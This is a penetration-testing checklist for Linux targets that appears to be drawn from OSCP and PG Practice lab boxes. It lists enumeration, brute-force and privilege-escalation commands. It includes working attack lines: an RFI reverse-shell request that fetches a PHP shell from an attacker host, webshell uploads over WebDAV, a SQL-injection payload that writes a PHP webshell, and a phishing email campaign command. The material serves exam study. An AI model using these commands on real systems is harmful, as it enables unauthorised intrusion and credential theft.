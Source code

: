 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Linux

{% hint style="info" %}
Based on the following PG Practice, PG Play, and PEN-200 boxes: Amaterasu, Apex, Astronaut, BBScute, BitForge, Blogger, Bratarina, Bullybox, ClamAV, Clue, Cockpit, Exfiltrated, Extplorer, Fanatastic, Fired, Flu, FunboxEasyEnum, Gaara, GlasgowSmile, Hawat, Hetemit, Hunit, LaVita, Levram, Loly, Mantis, Marketing, Mzeeav, Nibbles, Nukem, Payday, PC, Pebbles, Pelican, Peppo, Postfish, Potato, QuackerJack, Readys, Roquefort, Scrutiny, Snookums, Sorcerer, SpiderSociety, SPX, Stapler, Sybaris, Vmdak, Walla, WallpaperHub, Wombo, Workaholic, Xposedapi, Zab, ZenPhoto, Zipper,  Crystal (OSCP A), Aero (OSCP A), Berlin (OSCP B), Kiero (OSCP B),  Frankfurt (OSCP C), and Charlie (OSCP C).
{% endhint %}

## Foothold

<details>

<summary>Port Scan</summary>

The `nmap-scan` script can be found [here](https://github.com/CSpanias/ctf-scripts/tree/main?tab=readme-ov-file#nmap-scansh).

```bash
sudo nmap-scan <target-IP>
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/web">HTTP(S)</a></summary>

* [ ] [Dirbust](../../web/dirbusting.md) HTTP(S) ports with a [directory list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt) (plus server-specific extensions) and a [file list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt)&#x20;

{% code overflow="wrap" %}
```bash
# Dirbust with a directory list
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic -ac -c -u http://access/FUZZ -e .aspx,.php,
​
​# Dirbust with a file list
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -ic -ac -c -u http://access/FUZZ
```
{% endcode %}

* [ ] [File Uploads](https://x7331.gitbook.io/boxes/web/file-uploads)
* [ ] Default/Weak Creds

```bash
uv run creds search <appName>
```

* [ ] BFA

{% code overflow="wrap" %}
```bash
# POST request
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER^&password=^PASS^:F=403'

# POST request (base64-encoded credentials)
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER64^&password=^PASS64^:F=403'
```
{% endcode %}

* [ ] Application-specific PoCs (RCE, LFI, RFI)

{% code overflow="wrap" %}
```bash
# CLI tool
searchsploit <appName> <version>

# Google dork
site:github.com <appName> exploit poc

# RFI revshell
curl --path-as-is -s "http://10.10.10.10:4443/site/index.php?page=http://192.168.45.241:443/revshell_ivan.php" --proxy 127.0.0.1:8080
```
{% endcode %}

* [ ] [WebDAV](https://x7331.gitbook.io/boxes/web/webdav)

{% code overflow="wrap" %}
```bash
# Connect to WebDAV
$ cadaver http://x7331
Authentication required for hutch on server 'x7331':
Username: x7331
Password:
# Upload a webshell
dav:/> put /usr/share/webshells/aspx/cmdasp.aspx cmdasp.aspx

# Upload a webshell directly
$ curl -T '/home/kali/shell.aspx' 'http://192.168.64.122/' -u x7331:Pass123!
```
{% endcode %}

* [ ] [Custom wordlists](https://x7331.gitbook.io/boxes/tools/wordlists)

```bash
# Create a userlist based on the site users
username-anarchy -i site_users > anarchy_output

# Create a passlist based on the site content
cewl --write cewl_output http://192.168.202.21/
```

* [ ] [Git repositories](https://x7331.gitbook.io/boxes/web/devops/git-tools)

```bash
# Dump the repository
git-dumper http://target.lab/.git git_repo

# Write all commits to a file
git log | grep commit | cut -d " " -f2 | xargs git show > commits
​
# Open the commits file with VSCode
code commits
```

* [ ] [SQLi](https://x7331.gitbook.io/boxes/web/injections/sqli) (`sqlmap` is allowed for enumeration but not for exploitation)

{% code overflow="wrap" %}
```bash
# Enumeration
sqlmap -r login.req --batch
```
{% endcode %}

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/remote-access/22-ssh">SSH</a></summary>



</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] Known vulnerabilities

```bash
sudo nmap -script=smb-vuln\* -p445 10.10.10.10
```

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
$ uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
$ nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999

# Connect and download all files
$ smbclient //target/share -p 12445
Password for [WORKGROUP\x7331]:
Anonymous login successful        
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/shares/21-ftp">FTP</a></summary>

* [ ] Anonymous login

{% code overflow="wrap" %}
```bash
# Anonymous login
ftp anonymous@target
ftp ftp@target
```
{% endcode %}

* [ ] BFA

```bash
hydra -l <user> -P <passlist> ftp://<target>
```

* [ ] Enumerate directories

```bash
# Download dir
wget -r ftp://ftp@target_directory
```

* [ ] Upload files

```bash
ftp> put revshell_ivan.php
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/mail/25-587-smtp">SMTP</a>, <a href="https://x7331.gitbook.io/boxes/services/tcp/mail/110-995-pop3">POP3</a></summary>

* [ ] Username enumeration (SMTP)

```bash
smtp-user-enum -M VRFY -U anarchy_output -t 10.10.10.10
```

* [ ] Inbox enumeration (POP3)

```bash
$ telnet 10.10.10.10 110
USER x7331
+OK x7331 is known here.
PASS Pass123!
+OK Welcome! 4 messages (4744 bytes)
LIST
+OK 4 messages, 4744 bytes
1 1342
2 963
3 1347
4 1092
RETR 1
```

* [ ] Phising attachments ([library-ms](https://x7331.gitbook.io/boxes/social-engineering/phising#attachment), [libre-office](https://x7331.gitbook.io/boxes/web/file-uploads/file-types/libreoffice), [pdf](https://x7331.gitbook.io/boxes/web/file-uploads/file-types/pdf)) or malicious links

{% code overflow="wrap" %}
```bash
# Email body with a malicious link
$ cat body.txt
Please lick here to register: http://192.168.45.170/login.html

# Send an email to multiple email addresses
$ swaks --to $(cat emails.txt | tr '\n' ',') --from it@target.off --header "Subject: ERP Registration link" --body @body.txt --server 192.168.161.137 --port 25

# Listener to receive the response
$ sudo nc -lvnp 80
```
{% endcode %}

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/dbms">Databases</a></summary>

* [ ] [MySQL/MariaDB](https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/3306-mysql-mariadb)

{% code overflow="wrap" %}
```bash
# Connect
mysql -h kali -u x7331 -pPass123! --skip-ssl

# Webshell
'UNION SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/srv/http/webshell.php';-- 
```
{% endcode %}

* [ ] [PostgreSQL](https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/5432-postgresql)

```bash
# Connect
psql -h 127.0.0.1 -p 5437 -U postgresql -W
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/udp/161-snmp">SNMP</a></summary>

```bash
# Public strings
snmpwalk -v2c -c public <target>

# User-related strings
snmpwalk -v2c -c public <target> 1.3.6.1.4.1

# System-related strings
snmpwalk -v2c -c public <target> 1.3.6.1.2.1.1

# Running processes
snmpwalk -v2c -c public <target> 1.3.6.1.2.1.25.4.2.1.2

# Grep for keywords
snmpwalk -v2c -c public <target> | grep -Ei 'user|admin|name|passwd'
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp">​Unique Ports</a></summary>



</details>

## Privilege Escalation

<details>

<summary>User Context</summary>

* [ ] [Permissions](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon#users-and-groups)

```bash
sudo -l
```

* [ ] [Groups](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/privilege-escalation/groups)

```bash
id
groups
```

* [ ] Shell History

{% code overflow="wrap" %}
```bash
cat /home/x7331/.bash_history
```
{% endcode %}

</details>

<details>

<summary>Host Enumeration</summary>

* [ ] [LinPEAS](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pe-scripts#linux)
* [ ] Running processes ([pspy](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pspy), let it run for at least two minutes)

```bash
# List root processes
ps -u root -o pid,comm
​
# Dump the process
sudo gcore <PID>
​
# Inspect the file
strings core.<PID>
```

* [ ] [SUIDs and Capabilities](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon#files) ([GTFOBins](https://gtfobins.github.io/))

```bash
# Enumerate SUIDs
find / -type f -perm -u=s 2>/dev/null

# Enumerate capabilities
getcap -r / 2>/dev/null
```

* [ ] [Kernel](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon#system)

```bash
uname -a
```

* [ ] [Local Services](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#system)

```bash
netstat -ano
```

* [ ] [Cronjobs](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/privilege-escalation/cronjobs)

```bash
crontab -l
cat /etc/crontab
cat /var/log/syslog | grep "CRON"
```

* [ ] [Sudo version](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/privilege-escalation/binaries/sudo)

```bash
sudo --version
```

* [ ] Environment variables

```bash
env
```

* [ ] Passwords

```bash
grep -rH "password"
```

</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/3306-mysql-mariadb">MySQL/MariaDB</a></summary>

* [ ] Enumerate tables

```bash
mysql -h 127.0.0.1 -u x7331 -pPass123! --skip-ssl
```

</details>
